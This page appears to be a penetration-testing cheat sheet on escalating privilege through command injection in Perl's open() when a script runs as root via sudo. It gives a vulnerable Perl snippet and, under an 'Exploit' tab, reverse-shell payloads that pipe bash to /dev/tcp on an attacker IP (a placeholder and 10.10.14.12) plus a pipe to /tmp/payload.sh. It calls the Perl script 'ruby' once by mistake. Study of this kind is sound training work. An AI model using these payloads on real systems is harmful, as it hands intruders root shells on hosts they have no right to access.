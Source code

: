 # Perl

## Theory

Perl scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, perl scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Open() Command Injection

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `open()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/perl open.pl
```

Check if we have control over the input of the vulnerable function

```perl
my $file = <>;
open(FH, $file);
while (my $line = <FH>) {
  print($line);
}
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here is an example of a malicious payloads passed to the `open()` function:

```bash
$ sudo /usr/bin/perl open.pl

|bash -c 'bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'|
|/tmp/payload.sh
```

{% hint style="info" %}
The `|` is a built in functionality used to execute the file when opening it. The file must be executable.
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://ippsec.rocks" %}
